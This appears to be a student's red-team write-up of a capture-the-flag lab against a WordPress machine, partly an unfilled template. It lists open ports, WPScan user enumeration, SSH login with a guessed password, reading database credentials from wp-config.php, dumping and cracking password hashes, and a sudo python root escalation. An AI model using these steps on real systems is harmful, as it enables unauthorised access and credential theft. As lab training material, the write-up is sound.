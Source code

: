 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services
_TODO: Fill out the information below._

Nmap scan results for each machine reveal the below services and OS details:

![alt text](https://github.com/Rkelley6045/FinalProject/blob/main/Nmap%20/Nmap_Scan.png "Nmap Scan")

This scan identifies the services below as potential points of entry:
- Target 1
  - List of Exposed Servies: 
  - 22/TCP SSH
  - 80/TCP HTTP
  - 111/TCP rpcbind
  - 139/TCP netbios-ssn
  - 445/TCP netbios-ssn

_TODO: Fill out the list below. Include severity, and CVE numbers, if possible._

The following vulnerabilities were identified on each target:
- Target 1
  - List of critical vlunerabilites: 
  - Wordpress Pingback Locator 
  - Usernmae/Password Login Scanner 
  - XMLRPC DoS 
  - GHOST Vulnerability Scanner
  

_TODO: Include vulnerability scan results to prove the identified vulnerabilities._

![alt text](https://github.com/Rkelley6045/FinalProject/blob/main/WPScan/WPscan_vuln.png "WPscan vulnerabilities")

![alt text](https://github.com/Rkelley6045/FinalProject/blob/main/WPScan/WPscan_users.png "WPscan users")

### Exploitation
_TODO: Fill out the details below. Include screenshots where possible._

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: ![alt text](https://github.com/Rkelley6045/FinalProject/blob/main/Flags/Flag_1.png "Flag 1")    
    - **Exploit Used**
      - User Enumeration exploit used to scan the WordPress web application to discover usernames of the WordPress site
      - Command run: wpscan --url http://192.168.1.110/wordpress/ --enumerate u
  - `flag2.txt`: ![alt text](https://github.com/Rkelley6045/FinalProject/blob/main/Flags/Flag_2.png "Flag 2")   
    - **Exploit Used**
      - Used SSH to gain a user shell via the user profile discover during the User Enumeration exploit. Found Flag 2 under Micahel's profile, after guessing the password, in the var/www directory.
      - Command run: ssh Michael@192.168.1.110
  - `flag3.txt`: ![alt text](https://github.com/Rkelley6045/FinalProject/blob/main/Flags/Flag_3.png "Flag 3")    
    - **Exploit Used**
      - Obtained MySQL root credentials in the wp-config.php file via Michael's user profile. Explored the wordpress database to uncover Flag 3 in the WordPress table called wp_posts.  
      - Command run: cat /var/www/html/wordpress/wp-config.php 
      - Command run: mysql -u root -p
      - Command run: show databases;
      - Command run: use wordpress;
      - Command run: show tables;
      - Command run: select * from wp_posts;
  - `flag4.txt`: 
  - ![alt text](https://github.com/Rkelley6045/FinalProject/blob/main/Flags/Flag_4.png "Flag 4")    
    - **Exploit Used**
      - Accessed the WordPress database to abstract the user pw hashes (wp_users table) for both users (Michael and Steven). Exfiltrated the password hashes and ran them against the password cracker John. Secured a user shell under the user Steven, checked user priviledges, ran a python command to escalate to root, and obtain Flag 4 in the root home directory.
      - Command run: use wordpress;      
      - Command run: show tables;
      - Command run: select * from wp_users;
      - Command run: SELECT user_pass FROM wp_users INTO OUTFILE '/home/wp_hashes.txt';
      - Command run: john wp_hashes.txt `from root user on kali`
      - Command run: ssh Michael@192.168.1.110
      - Command run: su steven
      - Command run: sudo -l `check aany utilities which can be used with sudo`  
      - Command run: sudo python -c 'import pty:pty.spawn("/bin/bash")'  `root access coomand`                     
       
